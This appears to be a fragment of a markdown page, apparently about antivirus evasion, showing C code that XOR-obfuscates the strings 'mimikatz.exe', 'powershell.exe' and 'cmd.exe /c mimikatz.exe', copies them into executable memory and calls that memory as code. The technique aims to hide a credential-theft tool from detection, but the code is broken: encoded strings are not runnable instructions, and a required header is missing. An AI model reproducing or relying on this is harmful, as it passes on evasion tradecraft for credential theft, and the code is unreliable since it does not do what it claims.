 ```
    
    return 0;
}

```




### XORing each character with the value 0xAA

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main()
{
  char str1[] = "mimikatz.exe";
  char str2[] = "powershell.exe";
  char str3[] = "cmd.exe /c mimikatz.exe";

  int len1 = strlen(str1);
  int len2 = strlen(str2);
  int len3 = strlen(str3);

  for(int i = 0; i < len1; i++) {
    str1[i] = str1[i] ^ 0xAA;
  }

  for(int i = 0; i < len2; i++) {
    str2[i] = str2[i] ^ 0xAA;
  }

  for(int i = 0; i < len3; i++) {
    str3[i] = str3[i] ^ 0xAA;
  }

  void* mem = VirtualAlloc(NULL, sizeof(str1) + sizeof(str2) + sizeof(str3), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  memcpy(mem, str1, sizeof(str1));
  memcpy((char*)mem + sizeof(str1), str2, sizeof(str2));
  memcpy((char*)mem + sizeof(str1) + sizeof(str2), str3, sizeof(str3));

  ((void(*)())mem)();
  
  return 0;
}

```

